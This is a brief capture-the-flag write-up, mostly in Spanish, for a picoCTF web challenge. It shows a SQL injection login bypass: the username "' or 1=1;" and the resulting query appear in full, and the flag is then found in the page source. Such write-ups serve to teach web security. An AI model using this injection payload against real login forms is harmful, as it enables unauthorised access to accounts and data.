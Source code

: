 ## Objetivo
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:52121/).
## Solución
Entramos a la pagina y nos dice conexión fallida con lo que pongamos

Cambiamos los valores por una inyección de sql 
```
username: ' or 1=1;
password: admind
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admind'

Logged in! But can you see the flag, it is in plainsight.
```

Al inspeccionar la pagina nos da el valor de la bandera

## Notas adicionales

## Referencias